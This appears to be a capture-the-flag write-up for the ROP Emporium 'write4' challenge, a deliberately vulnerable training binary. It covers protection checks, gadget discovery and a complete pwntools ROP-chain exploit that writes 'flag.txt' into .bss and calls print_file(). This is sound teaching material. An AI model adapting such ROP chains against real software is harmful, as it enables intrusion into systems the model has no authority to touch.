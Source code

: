 # ✍️ write4 – ROP Emporium Challenge

> Category: Binary Exploitation – ROP Basics  
> Difficulty: Medium  
> Arch: `amd64`  
> Objective: Use ROP to write `"flag.txt"` into memory and call `print_file()`.

---

## 🛠️ 1. Initial Analysis

We start by checking the binary protections:

```bash
checksec write4
```

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### ✅ Observations:
- **NX enabled** → no shellcode on the stack.  
- **No PIE** → static addresses, easier exploitation.  
- **No canary** → buffer overflow is possible.  
- **Not stripped** → function symbols are available.  

---

## 🔍 2. Exploring Symbols

Using `nm`:

```bash
nm write4
```

Relevant symbols:

```
U print_file
U pwnme
```

Loading the binary in **Ghidra**, we see:  

- **main** simply calls `pwnme()`.  
- **pwnme** reads user input (vulnerable).  
- **usefulFunction** calls `print_file("nonexistent")`.  

So our goal is to **call `print_file("flag.txt")`**.

---

## 📦 3. Finding a Writable Section

Running in `radare2`:

```bash
r2 ./write4
> iS
```

We find:

```
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

The **`.bss` section** is writable → perfect place to store `"flag.txt"`.

---

## 🧱 4. Finding Gadgets

We need gadgets to:  
1. Write `"flag.txt"` into `.bss`  
2. Pass the address of `.bss` as argument (`rdi`) to `print_file()`  

Using `ROPgadget`:

- **Write gadget**:
```
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

- **Register control gadget**:
```
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

- **Function argument gadget**:
```
0x0000000000400693 : pop rdi ; ret
```

---

## 🧪 5. Crafting the Exploit

Steps:
1. Overflow the buffer (`"A" * 40`)  
2. Load `.bss` into `r14` and `"flag.txt"` into `r15`  
3. Write `"flag.txt"` into `.bss` (`mov [r14], r15`)  
4. Set `rdi = .bss`  
5. Call `print_file()`  

### Final Payload:

```python
from pwn import *

p = process("./write4")

payload  = b"A" * 40                        # Overflow buffer
payload += p64(0x400690)                    # pop r14 ; pop r15 ; ret
payload += p64(0x601038)                    # r14 = .bss
payload += b"flag.txt"                      # r15 = "flag.txt"
payload += p64(0x400628)                    # mov [r14], r15 ; ret
payload += p64(0x400693)                    # pop rdi ; ret
payload += p64(0x601038)                    # rdi = address of "flag.txt"
payload += p64(0x400620)                    # call print_file()

p.sendline(payload)
p.interactive()
```

---

## 🎯 6. Result

Running the exploit prints the flag:

```
ROPE{a_placeholder_32byte_flag!}
```

---

## 🧠 Key Takeaways

- Writing data into `.bss` is a common technique in ROP when strings don’t exist in memory.  
- Gadgets like `pop r14 ; pop r15 ; ret` combined with `mov [r14], r15` allow controlled memory writes.  
- Always check writable memory sections (`.bss`, `.data`).  
- `print_file("flag.txt")` is the classic objective in ROP Emporium.  
